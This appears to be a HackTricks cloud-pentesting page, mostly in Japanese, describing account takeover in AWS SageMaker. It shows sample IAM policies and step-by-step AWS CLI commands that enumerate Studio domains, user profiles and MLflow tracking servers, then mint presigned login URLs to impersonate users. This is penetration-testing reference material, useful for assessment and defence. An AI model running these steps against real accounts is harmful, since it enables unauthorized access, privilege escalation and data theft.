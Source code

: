 # AWS - SageMaker Unauthorized Access

{{#include ../../../../banners/hacktricks-training.md}}

## SageMaker Studio - CreatePresignedDomainUrl を介したアカウント乗っ取り (Impersonate Any UserProfile)

### 説明
ターゲットの Studio `UserProfile` に対して `sagemaker:CreatePresignedDomainUrl` を呼び出す権限を持つアイデンティティは、そのプロファイルとして直接認証するログイン URL を発行できます。これにより攻撃者のブラウザは、プロファイルの `ExecutionRole` 権限を継承し、プロファイルの EFS‑backed ホームおよびアプリへの完全なアクセスを持つ Studio セッションを取得します。`iam:PassRole` やコンソールアクセスは不要です。

### 要件
- SageMaker Studio の `Domain` とその中のターゲット `UserProfile`。
- 攻撃者プリンシパルはターゲット `UserProfile` に対して `sagemaker:CreatePresignedDomainUrl`（リソースレベル）または `*` を持っている必要があります。

Minimal policy example (scoped to one UserProfile):
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "sagemaker:CreatePresignedDomainUrl",
"Resource": "arn:aws:sagemaker:<region>:<account-id>:user-profile/<domain-id>/<user-profile-name>"
}
]
}
```
### 悪用手順

1) 対象にできる Studio Domain と UserProfiles を列挙する
```bash
DOM=$(aws sagemaker list-domains --query 'Domains[0].DomainId' --output text)
aws sagemaker list-user-profiles --domain-id-equals $DOM
TARGET_USER=<UserProfileName>
```
2) presigned URL を生成する (デフォルトでは有効期限は約5分)
```bash
aws sagemaker create-presigned-domain-url \
--domain-id $DOM \
--user-profile-name $TARGET_USER \
--query AuthorizedUrl --output text
```
3) ブラウザで返されたURLを開き、ターゲットユーザーとしてStudioにサインインします。Studio内のJupyterターミナルで実効IDを確認します:
```bash
aws sts get-caller-identity
```
注意:
- `--landing-uri` は省略可能です。`app:JupyterLab:/lab` のような一部の値は Studio のフレーバー/バージョンによって拒否される場合があります; デフォルトでは通常 Studio ホームにリダイレクトされ、その後 Jupyter に遷移します。
- 組織のポリシーや VPC エンドポイントの制限によりネットワークアクセスがブロックされる場合があります; token minting はコンソールへのサインインや `iam:PassRole` を必要としません。

### Impact
- ARN が許可された任意の Studio `UserProfile` を引き受けることで、`ExecutionRole` やファイルシステム/アプリを継承し、横移動や権限昇格が発生します。

### Evidence (from a controlled test)
- ターゲット `UserProfile` に対して `sagemaker:CreatePresignedDomainUrl` のみが付与されている状態で、攻撃者ロールは次のような `AuthorizedUrl` を正常に返しました:
```
https://studio-d-xxxxxxxxxxxx.studio.<region>.sagemaker.aws/auth?token=eyJhbGciOi...
```
- 直接の HTTP リクエストは Studio へリダイレクト (HTTP 302) で応答し、その URL が有効で期限切れになるまでアクティブであることを確認できます。


## SageMaker MLflow Tracking Server - ATO via CreatePresignedMlflowTrackingServerUrl

### 説明
ターゲットの SageMaker MLflow Tracking Server に対して `sagemaker:CreatePresignedMlflowTrackingServerUrl` を呼び出す権限を持つアイデンティティは、そのサーバーの管理された MLflow UI に直接認証する単回使用の presigned URL を発行できます。これにより、コンソールアクセスや `iam:PassRole` なしで、正規ユーザーが持つのと同じサーバーへのアクセス（実験や runs の表示/作成、およびサーバーの S3 アーティファクトストアからのアーティファクトのダウンロード/アップロード）が付与されます。

### 要件
- アカウント/リージョン内にある SageMaker MLflow Tracking Server とその名前。
- 攻撃者主体はターゲットの MLflow Tracking Server リソースに対して `sagemaker:CreatePresignedMlflowTrackingServerUrl`（または `*`）の許可を必要とします。

最小ポリシー例（1つの Tracking Server にスコープ）:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "sagemaker:CreatePresignedMlflowTrackingServerUrl",
"Resource": "arn:aws:sagemaker:<region>:<account-id>:mlflow-tracking-server/<tracking-server-name>"
}
]
}
```
### 悪用手順

1) ターゲットにできる MLflow Tracking Servers を列挙し、1つの名前を選ぶ
```bash
aws sagemaker list-mlflow-tracking-servers \
--query 'TrackingServerSummaries[].{Name:TrackingServerName,Status:TrackingServerStatus}'
TS_NAME=<tracking-server-name>
```
2) presigned MLflow UI URL を生成する（短時間のみ有効）
```bash
aws sagemaker create-presigned-mlflow-tracking-server-url \
--tracking-server-name "$TS_NAME" \
--expires-in-seconds 300 \
--session-expiration-duration-in-seconds 1800 \
--query AuthorizedUrl --output text
```
3) ブラウザで返されたURLを開き、当該 Tracking Server の認証済みユーザーとして MLflow UI にアクセスします。

注意:
- The Tracking Server は準備完了状態（例: `Created/Active`）である必要があります。まだ `Creating` の場合、呼び出しは拒否されます。
- presigned URL は一回限りで有効期限が短いので、必要に応じて新しいものを生成してください。

### 影響
- ターゲットとなる Tracking Server の管理されている MLflow UI への直接アクセス。これにより、サーバ設定で強制される権限の範囲内で、experiments/runs の閲覧・変更や、サーバに設定された S3 artifact store に格納されている artifacts の取得・アップロードが可能になります。

{{#include ../../../../banners/hacktricks-training.md}}
